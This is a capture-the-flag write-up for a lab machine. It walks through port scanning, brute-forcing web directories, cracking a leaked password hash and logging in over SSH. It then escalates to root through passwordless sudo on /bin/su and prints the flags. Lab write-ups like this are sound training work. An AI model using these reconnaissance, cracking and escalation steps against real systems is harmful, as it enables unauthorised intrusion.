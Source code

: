 ## Description
Aim of the room is to exploit a target machine and get the user.txt and root.txt content


## Solution
ip of the target host: 10.10.193.79

Reconnaissance: scan the target machine to enumerate ports and services.
```shell
nmap -sV 10.10.193.79
```
We have port 22 and 80 open
```shell
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Meanwhile run gobuster to find hidden directories.
```shell
gobuster dir -u http://10.10.193.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 64
```
We found the hidden path /secret. The url http://10.10.193.79/secret/ yield a blank page.
Therefore I tried to bruteforce the content of the directory to find some interesting hidden files, but no luck.
We can bruteforce the directory /secret to find hidden files:
```shell
gobuster dir -u http://10.10.193.79/secret/ -w /usr/share/dirbus ter/wordlists/directory-list-2.3-medium.txt -t 64 -x txt,php,html,css,js
```
We managed to find the file secret.txt, containing a username and a hash:
nyan:046385855FC9580393853D8E81F240B66FE9A7B8

Now we can try to break the hash to find the password of nyan. Hopefully is the same password used to login through ssh.

In order to break the hash we can use the CrackStation (https://crackstation.net/).
We get nyan.

We can now use the retrieved credential to try to get access to the machine using ssh:
```shell
ssh nyan@10.10.193.79
```
It worked !

```shell
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt 
supernootnoot
```
The content of user.txt is supernootnoot.

Final step is to find the file root.txt. the name of the fiel suggests that it's necessary to get root in order to get the flag.
Look for files with setuid permission set:
```shell
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
It gave the following result:
```shell
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
```

Lookup in GTFObins (https://gtfobins.github.io/) if we can take advantage of one of these binaries.
No exploitable binaries have been found.

We download LinEnum, useful tool to scan the system and find ways to escalate the privileges. The result of the scan is the following.
```shell
[+] We can sudo without supplying a password!                                                                     
Matching Defaults entries for nyan on ubuntu:                                                                     
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/
bin                                                                                                               
                                                                                                                  
User nyan may run the following commands on ubuntu:                                                               
    (root) NOPASSWD: /bin/su
```

Therefore we can become root using: 
```shell
sudo /bin/su
``` 

In the home directory of root we can find the root.txt file.
```shell
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
congratulations!!!!
```

The content of root.txt is congratulations!!!



